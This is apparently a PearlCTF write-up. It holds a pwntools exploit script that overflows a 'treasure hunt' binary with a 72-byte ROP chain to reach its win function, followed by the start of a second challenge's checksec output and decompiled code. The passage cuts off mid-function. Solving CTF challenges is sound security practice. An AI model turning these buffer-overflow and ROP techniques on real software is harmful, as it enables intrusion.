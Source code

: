 ```python
from pwn import *
 
elf = ELF("./vuln")
context.binary = elf
context.log_level = 'debug'
 
io = elf.process()
#io = remote("treasure-hunt.ctf.pearlctf.in", 30008)
io.sendlineafter(b"Enter the mystery key to proceed:", b"whisp3ring_w00ds")
io.sendlineafter(b"Enter the mystery key to proceed:", b"sc0rching_dunes")
io.sendlineafter(b"Enter the mystery key to proceed:", b"eldorian_ech0")
io.sendlineafter(b"Enter the mystery key to proceed:", b"shadow_4byss")
# io.sendline(cyclic(200, n=8))
# io.wait()
# core = io.corefile
# print(cyclic_find(core.read(core.rsp, 8), n=8))
# offset 72
rop = ROP(elf)
rop.raw("A"*72)
rop.setEligibility()
rop.winTreasure()
 
io.sendlineafter(b"enter the final key for the win:-", rop.chain())
io.interactive()
```

Flag: pearl{k33p_0n_r3turning_l0l}

## Readme (Pwn)

```
(ctfvenv) benkyou@fedora:~/Dev/readme_src$ checksec main
[*] '/home/benkyou/Dev/readme_src/main'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

The challenge lets us enter a filename to read, and outputs the content to us.
If the filename contains `flag.txt`, it prompts us for a password.

Let's look at the decompiled code.

```
  int32_t main(int32_t argc, char** argv, char** envp)

      void* fsbase
      int64_t rax = *(fsbase + 0x28)
      void password
      generate_password(&password, 0x7f)
      printf(format: "Welcome to file reading service!")
      fflush(fp: __TMC_END__)
      
      for (int32_t i = 0; i s<= 1; i += 1)
          printf(format: "\nEnter the file name: ")
          fflush(fp: __TMC_END__)
          void filename
          __isoc99_scanf(format: "%s", &filename)
          char* filebasename = __xpg_basename(&filename)
          FILE* fp = fopen(&filename, mode: U"r")
```